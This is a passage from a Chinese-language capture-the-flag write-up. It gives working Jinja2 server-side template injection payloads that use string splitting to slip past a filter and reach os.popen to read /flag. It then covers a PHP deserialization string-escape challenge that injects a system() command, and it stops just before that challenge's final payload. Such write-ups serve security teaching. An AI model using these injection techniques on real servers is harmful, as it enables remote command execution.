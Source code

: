 最终payload：

```
{%print({}.__class__.__mro__[1].__subclasses__()[132]["__in"+"it__"]["__globals__"]["po"+"pen"]("cat /flag").read())%}
```

官方payload：

```
{% print(get_flashed_messages.__globals__.os["pop"+"en"]("cat /flag").read()) %}
get_flashed_messages这个内置函数没有被过滤
```

## Week4

### 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}
unserialize(waf(serialize(new GetFlag($_GET['key']))));
```

有`str_replace`函数，这道题是php反序列化字符串逃逸增多问题

首先构造序列化字符串

```
O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:4:"ls /";}
```

我们需要逃逸`s:3:"cmd";s:4:"ls /";}`，为了构造闭合，在前面添加`";`

现在我们需要逃逸的是`";s:3:"cmd";s:4:"ls /";}`，长度是24

因为bad替换成good增加一个字符，所以我们需要输入24个bad

同样，`";s:3:"cmd";s:9:"cat /flag";}`29个字符

payload：
